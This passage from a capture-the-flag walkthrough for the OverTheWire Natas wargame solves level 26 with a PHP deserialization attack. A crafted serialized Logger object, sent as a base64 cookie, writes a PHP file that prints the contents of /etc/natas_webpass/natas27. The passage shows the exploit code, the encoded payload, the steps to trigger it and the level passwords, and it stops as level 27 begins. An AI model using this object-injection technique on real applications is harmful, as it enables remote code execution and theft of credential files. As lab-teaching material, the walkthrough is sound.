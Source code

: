 ```php
<?php
    class Logger {
        private $logFile;
        private $initMsg;
        private $exitMsg;
        
        function __construct(){
            $this->initMsg="heyyyyyy\n";
            $this->exitMsg="<?php echo file_get_contents('/etc/natas_webpass/natas27'); ?>\n";
            $this->logFile = "/var/www/natas/natas26/img/randomphpfilename.php";
        }
    }
    echo(base64_encode(serialize(new Logger()))."\n");
?>
```

What we did here, is basically overwrite the functionality of the Logger class. Thanks to the `unserialize` function mentioned before, we have the ability to load this class into the server side code. Let's run this php code, to get the base64 encoded string of the serialized class. It should be **something** like this:  

```text
Tzo2OiJMb2dnZXIiOjM6e3M6MTU6IgBMb2dnZXIAbG9nRmlsZSI7czo0ODoiL3Zhci93d3cvbmF0YXMvbmF0YXMyNi9pbWcvcmFuZG9tcGhwZmlsZW5hbWUucGhwIjtzOjE1OiIATG9nZ2VyAGluaXRNc2ciO3M6OToiaGV5eXl5eXkKIjtzOjE1OiIATG9nZ2VyAGV4aXRNc2ciO3M6NjM6Ijw/cGhwIGVjaG8gZmlsZV9nZXRfY29udGVudHMoJy9ldGMvbmF0YXNfd2VicGFzcy9uYXRhczI3Jyk7ID8+CiI7fQ==
```

Now, switch back to our opened Developer Tools, and replace the value of the `drawing` cookie with our new string. If that's completed, let's reload the page. It's possible, that we see some error messages, like this:

```text
Fatal error: Uncaught Error: Cannot use object of type Logger as array in /var/www/natas/natas26/index.php:105 Stack trace: #0 /var/www/natas/natas26/index.php(131): storeData() #1 {main} thrown in /var/www/natas/natas26/index.php on line 105
```

It does not matter at this point. However, let's load the following file to a new tab:
```text
http://natas26.natas.labs.overthewire.org/img/randomphpfilename.php
```
If everything's correct, you should see the value of the file at `/etc/natas_webpass/natas27`, maybe more than one time. But that's good, since we've successfully injected a code, outside from the server, and it replaced the behaviour of the code.  

The password for level 27 is:  
`PSO8xysPi00WKIiZZ6s6PtRmFy9cbxj3`

**Natas level 27**  
http://natas27.natas.labs.overthewire.org/  
username: `natas27`  
password: `PSO8xysPi00WKIiZZ6s6PtRmFy9cbxj3`  

Let's click on the `View sourcecode` to prepare ourselves:  
The very first thing that they provide to us is an SQL CREATE command, which looks like the following:
